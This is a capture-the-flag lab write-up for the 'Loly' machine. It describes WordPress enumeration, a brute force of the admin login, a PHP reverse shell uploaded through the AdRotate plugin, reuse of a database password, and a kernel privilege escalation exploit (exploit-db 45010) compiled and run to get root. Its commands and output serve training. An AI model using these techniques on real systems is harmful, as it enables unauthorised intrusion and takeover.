








# Loly


## Summary

This lab involves exploiting a WordPress site through credential brute-forcing and a file upload vulnerability in the AdRotate plugin. Privilege escalation is achieved by leveraging a Linux kernel local privilege escalation vulnerability on Ubuntu 16.04.

### Learning Objectives

**After completion of this lab, learners will be able to:**

- Perform Nmap and Gobuster scans to identify services and hidden directories.
- Enumerate the WordPress site using WPScan to identify users and brute-force credentials.
- Exploit the AdRotate plugin to upload a reverse shell and gain a foothold.
- Enumerate the system to identify the vulnerable Linux kernel version.
- Compile and execute the Linux kernel local privilege escalation exploit to gain root access.

## Enumeration

Firstly the attacker will enumerate the target to determine exposed services.
```zsh
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
```

Only one service is available. It presents the default nginx page.



A quick gobuster scan reveals a /wordpress endpoint.
```
➜ gobuster dir -u http://192.168.241.121/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.241.121/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
wordpress            (Status: 301) [Size: 194] [--> http://192.168.241.121/wordpress/]
```

The wordpress site looks pretty broken and default. Browsing over any of the links reveals `http://loly.lc` as the domain. The attacker will add that to /etc/hosts



The wordpress login can be enumerated by attempting to reset passwords for common usernames. In this instance the attacker discovers the user 'loly' exists.



Using wpscan the attacker finds a plugin on the site with 52 vulnerabilities, none of the vulnerabilities appear to be overly useful while unauthenticated so the attacker will try and bruteforce the wp-admin login.
```zsh
[i] Plugin(s) Identified:

[+] adrotate
 | Location: http://loly.lc/wordpress/wp-content/plugins/adrotate/
 | Last Updated: 2025-10-07T19:54:00.000Z
 | [!] The version is out of date, the latest version is 5.15.3
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt
```


Burp Intruder successfully finds a 302 meaning a password worked.



The attacker can upload a .zip file to the banners. The attacker will hide a php reverse shell inside and then upload it.

![[banners.png]]

browsing to `http://loly.lc/wordpress/wp-content/banners/shell.php` pops the shell.



The attacker discovers the first flag.


Enumerating some files reveals:
```bash
www-data@ubuntu:~/html/wordpress$ cat wp-config.php

<SNIP>

define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
```

and that password works to pivot to the loly user.
```zsh
www-data@ubuntu:~/html/wordpress$ su loly
Password: 
loly@ubuntu:/var/www/html/wordpress$ cd ~
loly@ubuntu:~$ ls -lpa
total 20
drwxr-xr-x 2 loly loly 4096 Dec  7  2020 ./
drwxr-xr-x 3 root root 4096 Aug 19  2020 ../
-rw------- 1 loly loly    0 Dec  7  2020 .bash_history
-rw-r--r-- 1 loly loly  220 Aug 19  2020 .bash_logout
-rw-r--r-- 1 loly loly 3771 Aug 19  2020 .bashrc
-rw-r--r-- 1 loly loly  655 Aug 19  2020 .profile
```

Uploading linpeas and doing further enumeration reveals this box is Ubuntu 16.04 and there are lots of kernel exploits.



Searchsploit has several local privilege escalation exploits. This one ended up working https://www.exploit-db.com/exploits/45010



Uploading the shell, compiling it, and then running it allowed for the attacker to become root and fully compromise the machine.
```zsh
loly@ubuntu:~$ gcc 45010.c -o shell
loly@ubuntu:~$ chmod 777 shell 
loly@ubuntu:~$ ./shell
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880035d74f00
[*] Leaking sock struct from ffff8800792a0000
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff880035cd3900
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff880035cd3900
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
# cd /root
# ls -lpa
total 32
drwx------  3 root root 4096 Jan 26 09:32 ./
drwxr-xr-x 22 root root 4096 Dec  7  2020 ../
-rw-------  1 root root    0 Jan 13  2021 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jan 12  2021 .cache/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Jan 26 09:32 proof.txt
-rw-r--r--  1 root root   32 Dec  7  2020 root.txt
-rw-r--r--  1 root root   75 Aug 20  2020 .selected_editor
```